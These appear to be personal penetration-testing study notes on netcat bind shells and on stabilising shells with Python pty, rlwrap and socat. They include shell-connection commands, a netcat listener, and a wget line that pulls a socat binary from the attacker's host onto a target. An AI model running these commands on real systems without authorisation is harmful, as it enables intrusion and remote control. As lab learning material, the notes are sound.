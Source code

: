 _Bind Shells_:
If we are looking to obtain a bind shell on a target then we can assume that there is already a listener waiting for us on a chosen port of the target: all we need to do is connect to it:
`nc <target-ip> <chosen-port>`

Here we are using netcat to make an outbound connection to the target on our chosen port.

## **Netcat Shell Stabilisation**
These shells are very unstable by default. Pressing Ctrl + C kills the whole thing. They are non-interactive, and often have strange formatting errors. This is due to netcat "shells" really being processes running _inside_ a terminal, rather than being bonafide terminals in their own right. Fortunately, there are many ways to stabilise netcat shells on Linux systems. We'll be looking at three here. Stabilisation of Windows reverse shells tends to be significantly harder; however, the second technique that we'll be covering here is particularly useful for it.
### _Technique 1: Python_
1. The first thing to do is use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
2. Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
	![[Pasted image 20240817023417.png]]

Note:
	If the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

### _Technique 2: rlwrap
rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell_;_ however, s_ome_ manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

To use rlwrap, we invoke a slightly different listener:

`rlwrap nc -lvnp <port>`  

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

###  _Technique 3: Socat_
The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).
